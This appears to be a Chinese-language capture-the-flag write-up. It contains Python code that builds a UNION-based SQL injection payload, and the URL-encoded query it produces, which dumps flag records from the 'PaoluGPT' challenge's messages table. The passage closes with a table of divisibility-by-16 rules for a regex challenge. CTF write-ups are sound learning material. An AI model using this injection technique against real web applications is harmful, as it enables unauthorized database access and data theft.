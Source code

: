 # Sparkcyf Writeup

>本writeup也会发布在我的博客上： https://blog.sparktour.me/

## PaoluGPT

观察代码注意到了可能可以进行SQL注入：
``` python
def generate_search_payload():
    # 构造搜索所有包含flag记录的payload 
    # 使用group_concat将多条记录合并,用换行符分隔
    payload = "' UNION SELECT 'Flags', group_concat(id || ' | ' || title || ' | ' || contents, char(10)) "
    payload += "FROM messages WHERE contents LIKE '%flag%' OR title LIKE '%flag%' -- "
    
    # URL编码
    encoded_payload = urllib.parse.quote(payload)
    
    # 构造完整URL
    url = f"/view?conversation_id={encoded_payload}"
    
    return url
```

得到了一个如下的query：
```
/view?conversation_id=%27%20UNION%20SELECT%20%27Flags%27%2C%20group_concat%28id%20%7C%7C%20%27%20%7C%20%27%20%7C%7C%20title%20%7C%7C%20%27%20%7C%20%27%20%7C%7C%20contents%2C%20char%2810%29%29%20FROM%20messages%20WHERE%20contents%20LIKE%20%27%25flag%25%27%20OR%20title%20LIKE%20%27%25flag%25%27%20--%20
```

在浏览器里粘贴进去得到的网页里搜索flag就能找到两个小题的flag了。

## 强大的正则表达式

### mod16

参考wikipedia的整除规则，做了一个匹配（只匹配了1，2，4，考虑到随机到四位数以下的概率很小）：

| 千位数是偶数时，末三位能被16整除。        | 25万4176：千位数4是偶数，末三位176，能被16整除。          |
| ----------------------------------------- | --------------------------------------------------------- |
| 千位数是奇数时，末三位加8能被16整除。     | 3408：千位数3是奇数，末三位408＋8＝416，能被16整除。      |
| 末两位与其余位乘4相加，其结果能被16整除。 | 176：1×4＋76＝80，1168：11×4＋68＝112，两者都能被16整除。 |
| 末四位能被16整除。                        | 15万7648：末四位7648能被16整除。                          |
